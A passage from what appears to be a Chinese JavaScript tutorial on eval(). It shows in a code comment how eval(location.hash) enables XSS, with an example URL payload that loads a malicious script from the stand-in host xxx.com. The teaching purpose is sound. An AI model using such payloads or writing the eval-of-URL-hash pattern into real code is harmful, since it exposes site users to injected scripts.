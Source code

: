 **CodePen：** [JavaScript 使用 window.eval() 函数](https://codepen.io/avincheng/pen/ZEWxvVp)

使用 `eval()` 不当引发 XSS 攻击：

```javascript
/**
 * 包含下面使用 eval() 不当的代码的网页地址为 'http://abc.com'，
 * 攻击者恶意代码文件地址为 'http://xxx.com/xss.js'，
 * 包含攻击代码的 URL 为 'http://abc.com#document.write("<script/src=//http://xxx.com/xss.js></script>")',
 * 当用户访问了包含攻击代码的 URL 时，会在用户浏览器执行包含恶意代码的 'http://xxx.com/xss.js' 文件。
 */
eval(location.hash.substr(1));
```

## 参考文献

* [eval()](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/eval)
* [Eval：执行代码字符串](https://zh.javascript.info/eval)
* 《你不知道的 JavaScript》

